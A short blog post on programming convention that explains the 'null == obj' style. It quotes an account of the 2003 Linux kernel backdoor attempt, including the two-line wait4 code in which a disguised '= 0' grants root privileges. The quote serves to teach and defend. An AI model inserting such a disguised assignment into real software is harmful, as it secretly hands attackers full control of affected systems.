 ```yaml
---
layout: post
title: "why put const before if condition"
description: ""
category: "csharp"
tags: [convention]
---
```

{% include JB/setup %}


I always see some code like this `if(null == obj)` from some open source project
and I didn't realize why the author write this instead of `if(obj == null)` until I saw this article

>Today I want to write about another incident, in 2003, in which someone tried to backdoor the Linux kernel. This one was definitely an attempt to insert a backdoor. But we don’t know who it was that made the attempt—and we probably never will.
Back in 2003 Linux used a system called BitKeeper to store the master copy of the Linux source code. If a developer wanted to propose a modification to the Linux code, they would submit their proposed change, and it would go through an organized approval process to decide whether the change would be accepted into the master code. Every change to the master code would come with a short explanation, which always included a pointer to the record of its approval.
But some people didn’t like BitKeeper, so a second copy of the source code was kept so that developers could get the code via another code system called CVS. The CVS copy of the code was a direct clone of the primary BitKeeper copy.
But on Nov. 5, 2003, Larry McVoy noticed that there was a code change in the CVS copy that did not have a pointer to a record of approval. Investigation showed that the change had never been approved and, stranger yet, that this change did not appear in the primary BitKeeper repository at all. Further investigation determined that someone had apparently broken in (electronically) to the CVS server and inserted this change.
What did the change do? This is where it gets really interesting. The change modified the code of a Linux function called wait4, which a program could use to wait for something to happen. Specifically, it added these two lines of code:
if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
        retval = -EINVAL;
[Exercise for readers who know the C programming language: What is unusual about this code? Answer appears below.]
A casual reading by an expert would interpret this as innocuous error-checking code to make wait4 return an error code when wait4 was called in a certain way that was forbidden by the documentation. But a really careful expert reader would notice that, near the end of the first line, it said “= 0” rather than “== 0”. The normal thing to write in code like this is “== 0”, which tests whether the user ID of the currently running code (current->uid) is equal to zero, without modifying the user ID. But what actually appears is “= 0”, which has the effect of setting the user ID to zero.
Setting the user ID to zero is a problem because user ID number zero is the “root” user, which is allowed to do absolutely anything it wants—to access all data, change the behavior of all code, and to compromise entirely the security of all parts of the system. So the effect of this code is to give root privileges to any piece of software that called wait4 in a particular way that is supposed to be invalid. In other words … it’s a classic backdoor.


yes sometimes `if(obj == null)` will be mistakenly wrote to `if(obj = null)` and this bug will sometimes hard to be discovered
and `if(null == obj)` can make sure this kind of mistake will not happened/